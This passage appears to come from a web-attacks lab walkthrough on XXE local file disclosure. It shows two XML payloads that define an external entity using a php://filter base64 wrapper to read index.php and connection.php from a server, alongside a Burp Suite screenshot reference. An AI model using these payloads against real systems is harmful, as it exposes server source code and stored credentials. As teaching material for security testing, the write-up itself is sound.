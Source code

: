 
```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

[SNIP]

<email>
	&payload;
</email>
```

![Burp Suite - POST XXE Attempt 3](./assets/screenshots/web_attacks_local_file_disclosure_burpsuite_post_xxe_attempt_3.png)

```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>

[SNIP]

<email>
	&payload;
</email>
```
